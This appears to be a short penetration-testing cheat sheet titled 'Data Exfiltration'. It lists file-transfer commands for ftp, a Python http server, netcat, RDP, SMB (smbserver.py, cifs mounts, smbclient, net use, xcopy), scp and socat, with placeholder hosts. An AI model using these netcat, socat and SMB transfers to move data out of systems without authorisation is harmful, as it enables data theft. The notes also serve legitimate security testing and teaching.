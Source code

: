 # Data Exfiltration  

## ftp  
`ftp [FTP SERVER ADDRESS] or ftp`  
`open    - connect to an ftp server`  
`user    - enter ftp username`  
`pass    - enter ftp password`  
`bi      - binary file transfer mode`  
`hash    - enable file transfer status`  
`get     - download a file`  
`put     - upload a file`  
`mget    - download multiple files`  
`mput    - upload multiple files`  

## http  
Using Python3 to run a temporary web server to allow file downloads from the current directory:  
`$ sudo python3 -m http.server [port]`  

## netcat
source sends the file  
source: `$nc -w 3 <DESTINATION> <PORT> < FILENAME>`  
destination: `$nc -l -p <PORT> > <FILENAME>`

destination pulls file
source: `$nc -l -p <PORT> < <FILENAME>`
destination: `$nc -w 3 <SOURCE> <PORT> > <FILENAME>`    

## rdp  
if RDP is available on the system, connect and copy/paste between the rdp client and the desktop.  This has a 2GB file size limit.  For larger file transfers, [mount a local drive](https://helpdeskgeek.com/networking/accessing-local-files-and-folders-on-remote-desktop-session/)  

 
## smb/windows file sharing  
Using smbserver.py  
smbserver.py is a python script that will create an open share in a folder of choice.  Once running, you can browse and interact through it using regular windows file sharing tools, such as Windows Explorer.  
`$ sudo smbserver.py <SHARE NAME> <LOCAL FOLDER>`  

Using cifs-utils to mount an smb share  
`$ sudo mkdir /mnt/<LOCAL FOLDER>`  
`$ sudo mount -t cifs -o username=<SHARE USER>,domain=<WINDOWS DOMAIN> //<SHARE IP>/<SHARE NAME> /mnt/<LOCAL FOLDER>`  

Using smbclient cli:  
`$ sudo smbclient \\\\<HOSTNAME>\\<SHARE>`  

In the cli:  
`cd    - change remote directory`  
`dir   - list directory`  
`get   - download file (file will be downloaded to local directory)`  
`put   - upload file (file will be uploaded to remote directory)`  
`help  - help menu`  
`exit  - exits the cli`  

Copying files from the Windows command line:  
using drive letters  
`net use <DRIVE LETTER>: \\<SMBSHARE>`  
`copy <DRIVE LETTER\SOURCE> <DRIVE LETTER\DESTINATION>`  
  
without drive letters  
`xcopy <\\HOST\SOURCE> <\\HOST\DESTINATION>`  

## ssh/scp  
`$ scp <USER>@<SOURCEHOST>:<\DIRECTORY\FILE> <USER>@<DESTINATIONHOST>:<\DIRECTORY\FILE>`  

## socat  
source: `socat FILE:<FILENAME> TCP-LISTEN:<PORT>`  
destination:  `socat TCP:<HOST>:<PORT> FILE:<FILENAME>,create`  





